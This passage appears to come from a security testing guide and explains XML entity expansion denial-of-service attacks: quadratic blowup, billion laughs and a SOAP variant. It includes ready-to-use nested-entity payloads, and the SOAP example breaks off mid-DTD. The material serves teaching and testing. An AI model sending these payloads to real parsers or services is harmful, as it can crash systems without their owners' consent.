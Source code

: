#### Quadratic Blowup

Instead of defining multiple small, deeply nested entities, the attacker in this scenario defines one very large entity and refers to it as many times as possible, resulting in a quadratic expansion (<i>O(n<sup>2</sup>)</i>).

The result of the following attack will be 100,000 x 100,000 characters in memory.

```xml
<!DOCTYPE root [
 <!ELEMENT root ANY>
 <!ENTITY A "AAAAA...(a 100.000 A's)...AAAAA">
]>
<root>&A;&A;&A;&A;...(a 100.000 &A;'s)...&A;&A;&A;&A;&A;</root>
```

#### Billion Laughs

When an XML parser tries to resolve the external entities included within the following code, it will cause the application to start consuming all of the available memory until the process crashes. This is an example XML document with an embedded [DTD](https://www.w3schools.com/xml/xml_dtd_intro.asp) schema including the attack:

```xml
<!DOCTYPE root [
 <!ELEMENT root ANY>
 <!ENTITY LOL "LOL">
 <!ENTITY LOL1 "&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;">
 <!ENTITY LOL2 "&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;">
 <!ENTITY LOL3 "&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;">
 <!ENTITY LOL4 "&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;">
 <!ENTITY LOL5 "&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;">
 <!ENTITY LOL6 "&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;">
 <!ENTITY LOL7 "&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;">
 <!ENTITY LOL8 "&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;">
 <!ENTITY LOL9 "&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;">
]>
<root>&LOL9;</root>
```

The entity `LOL9` will be resolved as the 10 entities defined in `LOL8`; then each of these entities will be resolved in `LOL7` and so on. Finally, the CPU and/or memory will be affected by parsing the `3 x 10^9` (3,000,000,000) entities defined in this schema, which could make the parser crash.

The Simple Object Access Protocol ([SOAP](https://en.wikipedia.org/wiki/SOAP)) specification forbids [DTD](https://www.w3schools.com/xml/xml_dtd_intro.asp)s completely. This means that a SOAP processor can reject any SOAP message that contains a [DTD](https://www.w3schools.com/xml/xml_dtd_intro.asp). Despite this specification, certain SOAP implementations did parse [DTD](https://www.w3schools.com/xml/xml_dtd_intro.asp) schemas within SOAP messages.

The following example illustrates a case where the parser is not following the specification, enabling a reference to a [DTD](https://www.w3schools.com/xml/xml_dtd_intro.asp) in a SOAP message:

```xml
<?XML VERSION="1.0" ENCODING="UTF-8"?>
<!DOCTYPE SOAP-ENV:ENVELOPE [
 <!ELEMENT SOAP-ENV:ENVELOPE ANY>
 <!ATTLIST SOAP-ENV:ENVELOPE ENTITYREFERENCE CDATA #IMPLIED>
 <!ENTITY LOL "LOL">
 <!ENTITY LOL1 "&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;">
 <!ENTITY LOL2 "&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;">
 <!ENTITY LOL3 "&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;">
 <!ENTITY LOL4 "&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;">
 <!ENTITY LOL5 "&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;">
 <!ENTITY LOL6 "&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;">
 <!ENTITY LOL7 "&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;">
 <!ENTITY LOL8 "&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;">
 <!ENTITY LOL9 "&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;">
```